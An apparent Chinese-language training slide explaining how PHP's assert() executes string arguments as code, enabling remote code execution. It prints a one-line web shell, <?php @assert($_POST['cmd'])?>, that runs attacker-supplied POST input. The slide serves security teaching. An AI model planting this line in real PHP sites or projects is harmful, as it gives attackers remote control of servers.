

# 远程代码执行 - assert函数
assert(mixed $assertion [,string $description])
检查一个断言是否为FALSE，如果assertion是字符串，它将会被assert()当作PHP代码来执行。
<?php @assert($_POST[‘cmd’])?>

注意：
assert()函数是直接将传入的参数当成PHP代码执行，不需要以分号结尾。